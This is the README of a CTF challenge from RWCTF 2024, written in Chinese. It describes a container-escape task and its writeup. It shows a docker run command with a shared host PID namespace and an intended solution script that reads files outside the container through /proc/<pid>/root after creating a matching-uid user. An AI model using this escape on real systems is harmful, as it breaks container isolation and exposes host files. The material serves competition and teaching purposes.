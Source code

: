 ## About

这是2024年第六届RWCTF体验赛的容器逃逸题目

## Description of the challenge

Pwn, difficulty:Normal

Escape, Escape, Escape, Escape !

`nc 47.96.250.76 6666`

## Witeup 

这个题目的出题思路来自于这篇[文章][1]。选手成功通过 ssh 成功连接上环境后，会发现这是一个容器环境，而且通过 `ps -aux` 命令能看到这个容器的启动命令：

```bash
1000        1113  0.0  0.0   6188   992 pts/0    S+   06:25   0:00 sleep 10000
1000        1114  0.0  2.3 1180376 23264 pts/0   Sl+  06:25   0:00 docker run --rm -it --pid=host --security-opt=apparmor=unconfined ubuntu bash
```

可以发现该容器共享了 pid， 因此能通过 ps命令看到容器外的进程。此外还有一个 uid 为 1000 的 sleep 进程。 预期解法如下：

```bash
#!/bin/sh

pid=$(pidof sleep)
useradd -u 1000 user

su user -c "cat /proc/$pid/root/flag1"

创建一个 uid 为 1000 的用户， 然后通过读 sleep 进程下的 /proc/$PID/root 的文件就能读到 flag
```

## Deploy

题目部署脚本相关可以参考 [deploy][2] 文件夹

## Reference Link

[1]: https://www.anquanke.com/post/id/290540	"一个未公开的容器逃逸方式"
[2]: ./deploy	"题目部署脚本"
